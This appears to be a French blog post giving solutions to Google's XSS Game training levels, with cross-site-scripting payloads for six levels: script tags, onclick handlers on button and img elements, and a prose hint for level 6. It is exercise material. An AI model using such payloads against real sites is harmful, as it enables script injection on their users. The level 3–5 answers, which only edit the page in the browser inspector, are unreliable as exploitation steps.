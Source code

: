 ```yaml
---
layout: post
title: XSS Game - Solutions
subtitle: XSS Game - Solutions 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [Web App, XSS, XSS Game, solutions]
comments: false
---
```


**Envie de tester vos connaissances des failles XSS ? Allez faire un tour sur le site XSS-Game de Google**

XSS Game: [https://xss-game.appspot.com/](https://xss-game.appspot.com/)

## [1/6] Level 1: Hello, world of XSS

**payload:** 

~~~
<script>alert('xss');</script>
~~~

## [2/6] Level 2: Persistence is key

_Description:_ Page pour poster des messages.

**tests et payload:** 

~~~
#1
<script>alert('xss');</script>
# marche pas

#2 
<sCript>alert('xss');</sCript>
# marche pas

#3
<button></button>
# fonctionne :)

# Payload
<button onclick="alert('XSS')">XSS</button>
~~~

## [3/6] Level 3: That sinking feeling...

_Description:_ Page pour  afficher des images.

**Solution:** On ouvre l'inspecteur et on modifie le code comme suit:

~~~
<img src="/static/level3/cloud3.jpg" onclick="alert('xss')">
~~~

## [4/6] Level 4: Context matters 

_Description:_  Page avec une fonction de timer et une image comme logo. 

**Solution:** Même type de payload que le niveau précédant... Ouvrir l'inspecteur et modifier le code comme suit:

~~~
<img src="/static/logos/level4.png" onclick="alert('xss')">
~~~

## [5/6] Level 5: Breaking protocol

**Solution:** Même chose que précédemment...

~~~
<img src="/static/logos/level5.png" onclick="alert('xss')">
~~~

## [6/6]  Level 6: Follow the rabbit

**Solution:** Heberger une page contenant un simple script et appeler cette page dans l'url


[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).


